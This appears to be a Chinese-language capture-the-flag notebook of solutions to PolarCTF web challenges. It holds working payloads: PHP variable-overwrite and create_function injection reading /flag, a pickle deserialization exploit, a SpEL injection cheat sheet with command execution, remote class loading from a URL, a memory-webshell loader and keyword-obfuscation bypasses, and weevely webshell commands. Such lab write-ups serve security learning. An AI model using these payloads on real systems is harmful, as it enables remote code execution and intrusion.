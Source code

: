 # web
### swp
递归绕过正则限制
```python
import requests
data = {"xdmtql": "sys nb" + "aaaaa" * 1000000}
res = requests.post('http://d9d00980-d2fc-412e-b6cc-b6db2562eafb.www.polarctf.com:8090/index.php', data=data, allow_redirects=False)
print(res.content)

```

### 简单rce
$IFS空格绕过+sort读取文件

### 上传


### 非常好绕的命令执行

hex2bin转换
`http://1ae67e55-509c-49e4-9bf7-a04be9788ca5.www.polarctf.com:8090/?args1=hex2bin&args2='73797374656d'&args3='ls'`

### php是世界上最好的语言
变量覆盖
```php
<?php
//flag in $flag
highlight_file(__FILE__);
include("flag.php");
$c=$_POST['sys'];
$key1 = 0;
$key2 = 0;
if(isset($_GET['flag1']) || isset($_GET['flag2']) || isset($_POST['flag1']) || isset($_POST['flag2'])) {
    die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);
extract($_POST);
if($flag1 == '8gen1' && $flag2 == '8gen1') {
    if(isset($_POST['504_SYS.COM'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\?/", $c)){
         eval("$c");  

    }
}
}
?>
```

```http
http://www.xxx.com?_POST[flag1]=8gen1&_POST[flag2]=8gen1
post:sys=echo($flag);&504[SYS.COM=a
```

### \$\$
`$GLOBALS`全局变量
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231211154038.png)


### 某函数的复仇
create_function注入

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231211163836.png)

```php
$shaw('',$root);


root=}system('more /flag');/*
shaw=create_function
```


### veryphp
call_user_func
调用类的方法
`myans=qwq::oao`

### unpickle
#pickle 

```python
import requests
import pickle
import os
import base64


class exp(object):
    def __reduce__(self):
        return (eval,("__import__('os').popen('cat /flag').read()",))


e = exp()
s = pickle.dumps(e)#将获取的对象序列化
user = base64.b64encode(s).decode()##将序列化的对象使用base64加密
print(user)#输出加密后的序列化对象
```

### upload tutu
使用`fastcoll`生成俩个hash值相同的文件,在`D:\CTF_Tools\fastcoll_v1.0.0.5.exe\fastcoll_v1.0.0.5.exe`

`fastcoll_v1.0.0.5.exe -p test.php -o test1.php test2.php`


### ezjava
Spel表达式注入
```java
//简单rce
new java.lang.ProcessBuilder("calc").start()
T(java.lang.Runtime).getRuntime().exec('calc')
new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("s=[1];s[0]='calc';java.lang.Runtime.getRuntime().exec(s);")

//远程类加载
new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL('http://127.0.0.1:8888/')}).loadClass("evil").getConstructors()[0].newInstance()

new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL('http://127.0.0.1:8888/')}).loadClass("evil").newInstance()



//回显
new java.util.Scanner(new java.lang.ProcessBuilder("ls", "app").start().getInputStream(), "GBK").useDelimiter("asdasdasdasd").next()

new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine()

//需要注册一个response上下文
#response.addHeader('x-cmd',new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine())


//内存🐎
T(org.springframework.cglib.core.ReflectUtils).defineClass('InceptorMemShell',T(org.springframework.util.Base64Utils).decodeFromString(''),T(java.lang.Thread).currentThread().getContextClassLoader()).newInstance()

//关键字绕过
T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),newString[]{"cmd","/C","calc"})

''.class.getSuperclass().class.forName('java.lang.Runtime').getMethod("ex"+"ec",T(String[])).invoke(''.class.getSuperclass().class.forName('java.lang.Runtime').getMethod("getRu"+"ntime").invoke(null),'calc')
```


### 这又是一个上传
可以直接上传一个php,但是权限很低,什么也做不了

使用`weevely`,在`D:\CTF_Tools\weevely3\`
```bash
#生成shell
python3 weevely.py generate cmd shell.php
#连接shell
python3 weevely.py http://xxx.php cmd
```
# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-12-09   23:22